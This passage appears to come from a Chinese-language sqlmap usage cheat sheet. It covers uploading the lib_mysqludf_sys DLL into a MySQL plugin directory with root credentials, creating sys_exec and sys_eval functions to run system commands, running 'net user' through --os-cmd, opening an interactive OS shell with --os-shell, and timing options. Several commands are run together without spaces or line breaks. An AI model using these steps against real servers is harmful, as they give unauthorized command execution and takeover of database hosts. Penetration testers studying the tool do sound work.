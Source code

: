 ```
sqlmap.py -dmysql://root:root@127.0.0.1:3306/test --sql-shellselect @@version;select @@plugin_dir;d:\\wamp2.5\\bin\\mysql\\mysql5.6.17\\lib\\plugin\\
```

（2）利用sqlmap上传lib_mysqludf_sys到MySQL插件目录:

```
sqlmap.py -dmysql://root:root@127.0.0.1:3306/test --file-write=d:/tmp/lib_mysqludf_sys.dll--file-dest=d:\\wamp2.5\\bin\\mysql\\mysql5.6.17\\lib\\plugin\\lib_mysqludf_sys.dllCREATE FUNCTION sys_exec RETURNS STRINGSONAME 'lib_mysqludf_sys.dll'CREATE FUNCTION sys_eval RETURNS STRINGSONAME 'lib_mysqludf_sys.dll'select sys_eval('ver'); 
```

### 17.执行shell命令

sqlmap.py -u "url" –os-cmd="netuser" /*执行net user命令*/

sqlmap.py -u "url" –os-shell /*系统交互的shell*/

### 18.延时注入

```
sqlmap –dbs -u"url" –delay 0.5 /*延时0.5秒*/sqlmap –dbs -u"url" –safe-freq /*请求2次*/
```

参考文章：

[http://sqlmap.org/](http://sqlmap.org/)

[https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)

[https://github.com/sqlmapproject/sqlmap/wiki](https://github.com/sqlmapproject/sqlmap/wiki)

[https://sobug.com/article/detail/2](https://sobug.com/article/detail/2)

[https://blog.xiaohack.org/1378.html](https://blog.xiaohack.org/1378.html)